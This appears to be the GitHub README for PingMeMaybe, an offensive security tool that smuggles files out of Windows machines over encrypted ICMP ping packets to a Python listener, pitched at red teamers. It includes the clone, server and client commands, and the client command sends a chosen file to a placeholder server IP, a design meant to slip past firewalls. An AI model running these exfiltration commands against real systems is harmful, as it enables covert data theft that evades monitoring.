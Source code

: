 # PingMeMaybe👻

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](LICENSE) 
![PowerShell](https://img.shields.io/badge/PowerShell-teal?logo=powershell&logoColor=white) 
![Python](https://img.shields.io/badge/Python-yellowgreen?logo=python&logoColor=white)

> **Covert ICMP-based file exfiltration tool**  
> Encrypted file transfer over ICMP echo requests for stealthy data smuggling.

---
## Overview

PingMeMaybe is a stealthy, encrypted file exfiltration tool leveraging ICMP echo request packets (ping) to covertly transmit files between a Windows client (PowerShell) and a server (Python).  
This tool is designed for red teamers and penetration testers who want to simulate data exfiltration via ICMP — a commonly allowed protocol that can bypass many firewall rules.

## Installation

### Server Requirements

- Python 3.7+
- Required Python packages:
  - `cryptography`
  - `rich`

### Download
Clone the repository or download the scripts manually:
```bash
git clone https://github.com/MAXIVA11/PingMeMaybe.git
cd PingMeMaybe
```
 
## Usage

### Server

Run the Python server script with root privileges to listen for incoming ICMP packets:

```bash
sudo python3 ping_smuggler_server.py
```
On startup, the server will generate and display a random AES-GCM key.
Copy this key exactly as shown — you will need it on the client side.

### Client

Run the PowerShell client script on a Windows machine with the following parameters:

```powershell
.\Invoke-PingSmuggler.ps1 -Target <Server_IP> -File <Path_to_File> -HexKey <AES-GCM_Key>
```
- **Target**: The IP address of the machine running the server.

- **File**: The full path to the file you want to exfiltrate.

- **HexKey**: The AES-GCM key generated by the server (copy-paste exactly).

### Notes

- PowerShell 7+ is recommended for AES-GCM support; if unavailable, the script falls back to AES-CBC+HMAC encryption.

- Make sure ICMP echo requests are allowed through firewalls on both client and serve

## Photos

### Server Console Example
![image](https://github.com/user-attachments/assets/74012396-64f4-4578-9e5b-1d3e5d4cd5bf)


### Client Console Example
![image](https://github.com/user-attachments/assets/16391aa0-d0b7-4a3c-8867-3428b0ca4d01)

---

## Contribution

Contributions, issues, and feature requests are welcome!  
Feel free to check the [issues page](https://github.com/MAXIVA11/PingMeMaybe/issues).
